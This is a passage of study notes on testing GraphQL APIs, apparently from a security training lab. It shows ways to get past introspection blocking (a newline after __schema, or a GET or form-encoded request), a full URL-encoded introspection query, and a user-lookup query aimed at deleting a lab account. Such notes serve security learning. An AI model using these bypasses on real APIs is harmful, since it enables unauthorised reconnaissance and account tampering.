 ```
  }
}
```
### Bypassing GraphQL introspection defenses

If you cannot get introspection queries to run for the API you are testing, try inserting a special character after the __schema keyword.

When developers disable introspection, they could use a regex to exclude the `__schema` keyword in queries. You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.

As such, if the developer has only excluded `__schema{`, then the below introspection query would not be excluded.

    #Introspection query with newline

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

If this doesn't work, try running the probe over an alternative request method, as introspection may only be disabled over POST. Try a GET request, or a POST request with a content-type of `x-www-form-urlencoded`.

 The example below shows an introspection probe sent via GET, with URL-encoded parameters.

```
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```
### Lab: Finding a hidden GraphQL endpoint

The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

To solve the lab, find the hidden endpoint and delete carlos.

>``https://gchq.github.io/CyberChef/#recipe=Find_/_Replace(%7B'option':'Extended%20(%5C%5Cn,%20%5C%5Ct,%20%5C%5Cx...)','string':'%20%20'%7D,'',true,false,true,false)URL_Encode(false)``

IntrospectionQuery:
```
GET /api?query=query%20IntrospectionQuery%20%7B%0A__schema%20%0A%7B%0AqueryType%20%7B%0Aname%0A%7D%0AmutationType%20%7B%0Aname%0A%7D%0AsubscriptionType%20%7B%0Aname%0A%7D%0Atypes%20%7B%0A%20...FullType%0A%7D%0Adirectives%20%7B%0Aname%0Adescription%0Aargs%20%7B%0A...InputValue%0A%7D%0A%0A%7D%0A%7D%0A%7D%0A%0Afragment%20FullType%20on%20__Type%20%0A%7B%0Akind%0Aname%0Adescription%0Afields(includeDeprecated:%20true)%20%7B%0Aname%0Adescription%0Aargs%20%7B%0A...InputValue%0A%7D%0Atype%20%7B%0A...TypeRef%0A%7D%0AisDeprecated%0AdeprecationReason%0A%7D%0AinputFields%20%7B%0A...InputValue%0A%7D%0Ainterfaces%20%7B%0A...TypeRef%0A%7D%0AenumValues(includeDeprecated:%20true)%20%7B%0Aname%0Adescription%0AisDeprecated%0AdeprecationReason%0A%7D%0ApossibleTypes%20%7B%0A...TypeRef%0A%7D%0A%7D%0A%0Afragment%20InputValue%20on%20__InputValue%20%7B%0Aname%0Adescription%0Atype%20%7B%0A...TypeRef%0A%7D%0AdefaultValue%0A%7D%0A%0Afragment%20TypeRef%20on%20__Type%20%0A%7B%0Akind%0Aname%0AofType%20%7B%0Akind%0Aname%0AofType%20%7B%0Akind%0Aname%0AofType%20%7B%0Akind%0Aname%0A%7D%0A%7D%0A%7D%0A%7D
```
The payload
```
query {
    getUser(id: 3) {
        id
        username
    }
}
```
return 
```
{
```